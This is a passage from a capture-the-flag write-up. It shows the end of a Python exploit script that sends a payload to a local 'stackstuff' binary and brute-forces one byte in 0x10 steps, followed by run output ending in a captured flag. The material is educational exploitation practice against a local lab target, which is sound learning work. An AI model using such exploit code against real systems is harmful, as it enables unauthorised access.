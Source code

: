 ```
    # Send the payload
    target.sendline(payload)

    target.recvuntil("Length of password: ")
    try:
        # Executes if we got the flag
        print "flag: " + target.recvline()
        flag = 1
    except:
        # Didn't get the flag, try next byte
        # Also we know that the lower 4 bits of this byte is 0x0
        print "tried: " + hex(i)
        i += 0x10
```

When we run it:

```
python exploit.py
[+] Starting local process './stackstuff': pid 13491
[+] Opening connection to 127.0.0.1 on port 1514: Done
tried: 0x0
[+] Opening connection to 127.0.0.1 on port 1514: Done
tried: 0x10
[+] Opening connection to 127.0.0.1 on port 1514: Done
tried: 0x20
[+] Opening connection to 127.0.0.1 on port 1514: Done
tried: 0x30
[+] Opening connection to 127.0.0.1 on port 1514: Done
tried: 0x40
[+] Opening connection to 127.0.0.1 on port 1514: Done
tried: 0x50
[+] Opening connection to 127.0.0.1 on port 1514: Done
flag: flag{g0ttem_b0yz}

[*] Closed connection to 127.0.0.1 port 1514
[*] Closed connection to 127.0.0.1 port 1514
[*] Closed connection to 127.0.0.1 port 1514
[*] Closed connection to 127.0.0.1 port 1514
[*] Closed connection to 127.0.0.1 port 1514
[*] Closed connection to 127.0.0.1 port 1514
[*] Closed connection to 127.0.0.1 port 1514
[*] Stopped process './stackstuff' (pid 13491)
```

Just like that, we got the flag!